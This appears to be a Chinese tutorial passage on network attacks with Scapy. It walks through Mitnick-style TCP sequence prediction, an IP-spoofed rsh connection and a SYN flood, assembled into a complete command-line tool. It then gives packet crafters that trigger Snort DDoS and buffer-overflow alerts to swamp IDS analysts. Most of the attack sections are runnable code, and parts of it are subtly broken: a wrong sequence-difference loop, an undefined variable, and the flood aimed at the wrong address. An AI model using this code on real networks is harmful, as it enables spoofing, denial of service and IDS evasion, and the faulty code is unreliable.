注意,使用 Scapy,我们不用手工填完所有的的 TCP 和 IP 字段:Scapy 会自动值上这些值。

此外,它将从我们默认的源IP地址发送。我们的新函数 callSYN 将会接收目标 IP地址这个参数，返回下一个SYN-ACK包的序列号(当前SYN-ACK序列号加上差值)。

```
def calTSN(tgt):
    seqNum = 0
    preNum = 0
    diffSeq = 0

    for x in range(1, 5):
        if preNum != 0:
            preNum = seqNum
        pkt = IP(dst=tgt) / TCP()
        ans = sr1(pkt, verbose=0)
        seqNum = ans.getlayer(TCP).seq
        diffSeq = seqNum - preNum
        print '[+] TCP Seq Difference: ' + str(diffSeq)
    return seqNum + diffSeq
tgt = "192.168.1.106"
seqNum = calTSN(tgt)
print "[+] Next TCP Sequence Number to ACK is: " + str(seqNum + 1)
```

现在的机器应该都是使用随机生成的TCP序列号了，这技术目测用不了了。

### 伪造TCP连接

有了正确的序列号后，Mitnick就能发动攻击了。Mitnick使用的序列号为2024371200,在跟他发送最早的那个探测被攻击的SYN包后，
大约有150个SYN包。首先，他假冒那台已经无法做出任何应答的服务器，发起了一个连接请求。接下来，他盲发了一个序列号为2024371201
的ACK包，表示已经正常正常建立了连接。


为了在Python中重现这一行为,我们将创建和发送两个数据包。首先 我们创建一个TCP源端口是 513，目的端口是 514，源 IP 地址为被假冒的服务器，
目的IP地址被攻击的服务器的SYN包。接下来,我们创建一个相同的 ACK 数据包,并把计算得到的序列号填入相应的字段中，最后把它发出去。

```
def spoofConn(src, tgt, ack):
    IPlayer = IP(src=src, dst=tgt)
    TCPlayer = TCP(sport=513, dport=514)
    synPkt = IPlayer / TCPlayer
    send(synPkt)

    IPlayer = IP(src=src, dst=tgt)
    TCPlayer = TCP(sport=513, dport=514, ack=ack)
    ackPkt = IPlayer / TCPlayer
    send(ackPkt)
src = "10.1.1.2"
tgt = "192.168.1.106"
seqNum = 2024371201
spoofConn(src, tgt, ack)
```

将全部代码整合在一起,增加一些参数解析代码来指定要假冒连接的地址、目标服务器，以及一开始在进行SYN泛洪攻击时使用的假地址。

```
import optparse
from scapy.all import *


def synFlood(src, tgt):
    for sport in range(1024,65535):
        IPlayer = IP(src=src, dst=tgt)
        TCPlayer = TCP(sport=sport, dport=513)
        pkt = IPlayer / TCPlayer
        send(pkt)


def calTSN(tgt):
    seqNum = 0
    preNum = 0
    diffSeq = 0

    for x in range(1, 5):
        if preNum != 0:
            preNum = seqNum
        pkt = IP(dst=tgt) / TCP()
        ans = sr1(pkt, verbose=0)
        seqNum = ans.getlayer(TCP).seq
        diffSeq = seqNum - preNum
        print '[+] TCP Seq Difference: ' + str(diffSeq)
    return seqNum + diffSeq


def spoofConn(src, tgt, ack):
    IPlayer = IP(src=src, dst=tgt)
    TCPlayer = TCP(sport=513, dport=514)
    synPkt = IPlayer / TCPlayer
    send(synPkt)

    IPlayer = IP(src=src, dst=tgt)
    TCPlayer = TCP(sport=513, dport=514, ack=ack)
    ackPkt = IPlayer / TCPlayer
    send(ackPkt)


def main():
    parser = optparse.OptionParser('usage %prog '+\
      '-s <src for SYN Flood> -S <src for spoofed connection> '+\
      '-t <target address>')
    parser.add_option('-s', dest='synSpoof', type='string',\
      help='specifc src for SYN Flood')
    parser.add_option('-S', dest='srcSpoof', type='string',\
      help='specify src for spoofed connection')
    parser.add_option('-t', dest='tgt', type='string',\
      help='specify target address')
    (options, args) = parser.parse_args()

    if options.synSpoof == None or options.srcSpoof == None \
        or options.tgt == None:
        print parser.usage
        exit(0)
    else:
        synSpoof = options.synSpoof
        srcSpoof = options.srcSpoof
        tgt = options.tgt

    print '[+] Starting SYN Flood to suppress remote server.'
    synFlood(synSpoof, srcSpoof)
    print '[+] Calculating correct TCP Sequence Number.'
    seqNum = calTSN(tgt) + 1
    print '[+] Spoofing Connection.'
    spoofConn(srcSpoof, tgt, seqNum)
    print '[+] Done.'


if __name__ == '__main__':
    main()
```

## 4.6 使用Scapy愚弄入侵检测系统

入侵检测系统(Intrusion Detection System, IDS)是主管分析师手中一个非常有价值的工具。一个基于网络的
入侵检测系统(network-based intrusion detection system,NIDS)可以通过记录 IP 网络数据包实时分析流量。
通过匹配已知恶意标记的数据包,IDS 可以在攻击成功之前提醒网络分析师。例如，Snort入侵检测系统通过预先
包装各种不同的规则来检测不同类型的侦查,攻击,拒绝服务等其他不同的攻击向量。审查其中一个配置的内容,
我们看到四个报警检测 TFN,tfn2k 和 Trin00 分布式拒绝服务的攻击工具。当攻击者使用 TFN,tfn2k 或者 Trin00
工具攻击目标,IDS 检测到攻击然后警告分析师。

然而,当分析师接收到大量警告，使他们难以对事件进行合理判断时，他们往往不知所措,可能会错过重要的攻击细节。

### 4.6.1 snort规则

先看一条DDOS规则：

```
alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"DDOS TFN Probe"; icmp_id: 678; itype: 8; content: "1234";reference:arachnids,443; classtype:attempted-recon; sid:221; rev:1;)
```

动作 协议 源IP 源端口 -> 目的IP 目的端口 （msg:"提示信息"; 规则1;规则2; ...;reference:arachnids,443; classtype:attempted-recon; sid:221; rev:1;)

- reference： 允许规则包含外面的攻击系统： arachnids（一个攻击特征数据库）
- classtype: 这个选项把alert分为不同的攻击类。通过使用这个关键字和优先级，用户可以指定每个类型需要的优先级。
- sid: 规则的唯一序列 （<100保留，100～999999为snrot发布用，>=1000,000本地用），允许输出插件容易识别规则的ID号，常和rev一起使用。
- rev: 用来标记规则修改

### 4.6.2 snort使用

snort -q -A console -i eth0 -c /etc/snort/snort.conf

带-c的是使用配置文件对数据包进行识别报警

不带-c仅是嗅探模式

### 4.6.3 触发ddos警告

#### 代码

```
def ddosTest(src, dst, iface, count):
    pkt=IP(src=src,dst=dst)/ICMP(type=8,id=678)/Raw(load='1234')
    send(pkt, iface=iface, count=count)

    pkt = IP(src=src,dst=dst)/ICMP(type=0)/Raw(load='AAAAAAAAAA')
    send(pkt, iface=iface, count=count)

    pkt = IP(src=src,dst=dst)/UDP(dport=31335)/Raw(load='PONG')
    send(pkt, iface=iface, count=count)

    pkt = IP(src=src,dst=dst)/ICMP(type=0,id=456)
    send(pkt, iface=iface, count=count)
```

#### 触发的规则

```
alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"DDOS TFN Probe"; icmp_id: 678; itype: 8; content: "1234";reference:arachnids,443; classtype:attempted-recon; sid:221; rev:1;)
alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"DDOS tfn2k icmp possible communication"; itype: 0; icmp_id: 0; content: "AAAAAAAAAA"; reference:arachnids,425; classtype:attempted-dos; sid:222; rev:1;)
alert udp $EXTERNAL_NET any -> $HOME_NET 31335 (msg:"DDOS Trin00 Daemon to Master PONG message detected"; content:"PONG";reference:arachnids,187; classtype:attempted-recon; sid:223; rev:2;)
alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"DDOS TFN client command BE"; itype: 0; icmp_id: 456; icmp_seq: 0; reference:arachnids,184; classtype:attempted-dos; sid:228; rev:1;)
```

### 4.6.4 触发expoit警告

#### 代码

```
def exploitTest(src, dst, iface, count):

    pkt = IP(src=src, dst=dst) / UDP(dport=518) \
    /Raw(load="\x01\x03\x00\x00\x00\x00\x00\x01\x00\x02\x02\xE8")
    send(pkt, iface=iface, count=count)

    pkt = IP(src=src, dst=dst) / UDP(dport=635) \
    /Raw(load="^\xB0\x02\x89\x06\xFE\xC8\x89F\x04\xB0\x06\x89F")
    send(pkt, iface=iface, count=count)
```

#### 触发的规则
```
alert udp $EXTERNAL_NET any -> $HOME_NET 518 (msg:"EXPLOIT ntalkd x86 Linux overflow"; content:"|01 03 00 00 00 00 00 01 00 02 02 E8|"; reference:bugtraq,210; classtype:attempted-admin; sid:313; rev:4;)
alert udp $EXTERNAL_NET any -> $HOME_NET 635 (msg:"EXPLOIT x86 Linux mountd overflow"; content:"^|B0 02 89 06 FE C8 89|F|04 B0 06 89|F"; reference:bugtraq,121; reference:cve,1999-0002; classtype:attempted-admin; sid:315; rev:6;)
```


